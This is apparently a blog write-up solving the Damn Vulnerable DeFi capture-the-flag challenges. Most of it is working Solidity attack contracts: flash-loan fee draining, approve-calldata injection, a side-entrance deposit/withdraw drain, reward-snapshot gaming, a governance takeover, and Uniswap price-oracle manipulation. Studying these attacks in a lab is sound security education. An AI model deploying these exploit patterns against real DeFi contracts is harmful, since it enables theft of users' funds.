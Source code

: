 ```yaml
---
title: Damn vulnerable defi Challenges
date: 2023-03-25 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## Challenge1

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```

## Challenge2

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

## Challenge3

Use ERC20 approve function and not it will not affect the balance when making flashloan.

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

## Challenge4

Use our deployed contract to send back the token using deposit function.After the flashloan call withdraw function to take our tokens back.
Do not forget to set the receive function for receiving tokens.
Use \_to.call function to send tokens,it is the current recommended method to use.

```javascript
contract Attack {
     function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value:msg.value}();
     }

     function attack(SideEntranceLenderPool pool,address payable player) external {
        //make a flashloan
        pool.flashLoan(1000 ether);
        //get the money
        pool.withdraw();
        //send to palyer
        (bool sent,) = player.call{value:1000 ether}("");
        require(sent, "Failed to send Ether");
     }

     receive() external payable {}
}
```

## Challenge5

The reward pool only count the amount of deposit. We can use flash loan to borrow some DVT token and claim the reward token at the same time.Here goes the code:

```javascript
contract TheRewardAttack {
    //flashloan pool address.
    FlashLoanerPool  private immutable pool;
    DamnValuableToken private immutable DVTtoken;
    TheRewarderPool private immutable RewardPool;
    RewardToken private immutable RdToken;
    address private owner;

    constructor(FlashLoanerPool _pool,DamnValuableToken _token,TheRewarderPool _RewardPool,RewardToken _Rdtoken,address player) {
        pool = _pool;
        DVTtoken = _token;
        RewardPool = _RewardPool;
        RdToken = _Rdtoken;
        owner = player;
    }

    function receiveFlashLoan(uint256 amount) external{
        //do something.
        //deposit to reward pool
        //approve amount to the reward pool
        DVTtoken.approve(address(RewardPool),amount);

        RewardPool.deposit(amount);

        //claim the rewards
        RewardPool.distributeRewards();

        //withdraw DVTtokens
        RewardPool.withdraw(amount);

        //return back DVT token.
        DVTtoken.transfer(address(pool),amount);

        //send reward token to our player.
        RdToken.transfer(owner,RdToken.balanceOf(address(this)));
    }

    function attack(uint256 amount) external{
        pool.flashLoan(amount);
    }
}
```

## Challenge6

This challenge is similar to the previous one.Firstly we use flashloan borrow some DVT token.Secondly we use the DVT token make a governance action.Finally two days later we make a executeAction to claim the DVT token to our attack contact and send it to our player.Here goes the entire code:

```javascript
pragma solidity ^0.8.0;

import "./SimpleGovernance.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "hardhat/console.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract SelfieAttack is IERC3156FlashBorrower {

    SelfiePool private immutable pool;
    SimpleGovernance private immutable governance;
    DamnValuableTokenSnapshot private immutable token;

    constructor(SelfiePool _pool,SimpleGovernance _governance,DamnValuableTokenSnapshot _token) {
        pool = _pool;
        governance = _governance;
        token = _token;
    }

    function onFlashLoan(address initiator,address _token,uint256 amount,uint256 fee,bytes calldata _data) external returns (bytes32){
        //receive DVT token from pool
        console.log("receive token:",DamnValuableTokenSnapshot(_token).balanceOf(address(this)));

        //make a snapshot ?
        DamnValuableTokenSnapshot(_token).snapshot();

        //submit an governance action
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)",address(this));

        governance.queueAction(address(pool),0,data);

        //approve DVT token to lending pool.
        DamnValuableTokenSnapshot(_token).approve(address(pool),amount);

        //return success bytes
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function exeAction(uint256 actionId) external {
        //execute the action
        governance.executeAction(actionId);
        //send token to mother fuck sender please
        DamnValuableTokenSnapshot(token).transfer(msg.sender,DamnValuableTokenSnapshot(token).balanceOf(address(this)));
    }

    function attack(uint256 borrowAmount) external {
        //make a DVT token flashloan
        pool.flashLoan(IERC3156FlashBorrower(this),address(token),borrowAmount,'0x');
    }
}
```

## Challenge7

Get the private key from the leak data,and then use source address to change the price of NFT.Finnaly sell the NFT for a profit.

## Challenge8

The cost amount for lending is pegging with uniswap pool:

> uniswapPair.balance \* (10 \*\* 18) / token.balanceOf(uniswapPair)

Therefore, we use swap all our DVT token to ETH and then the number of **uniswapPair.balance/token.balanceOf(uniswapPair)** goes down.After that happened we can deposit our eth to borrow all the DVT token in lending pool.

```javascript
contract PuppetAttack {

    address public immutable uniswapExchange;
    DamnValuableToken public immutable token;
    PuppetPool public immutable pool;
    constructor(address tokenAddress, address _uniswapExchange,PuppetPool _pool){
        token = DamnValuableToken(tokenAddress);
        uniswapExchange = _uniswapExchange;
        pool = _pool;
    }

    function attack() external payable {
        //receive DVT
        token.transferFrom(msg.sender,address(this),token.balanceOf(msg.sender));

        //approve DVTtoken to uniswap pool
        token.approve(uniswapExchange,token.balanceOf(address(this)));

        //swap all DVT token to eth in uniswap pool.
        UniswapExchangeInterface(uniswapExchange).tokenToEthSwapInput(token.balanceOf(address(this)), 1, block.timestamp+5);

        //borrow DVT token by depositing eth.
        pool.borrow{value:address(this).balance}(token.balanceOf(address(pool)),msg.sender);
    }

    receive() external payable{}
}
```
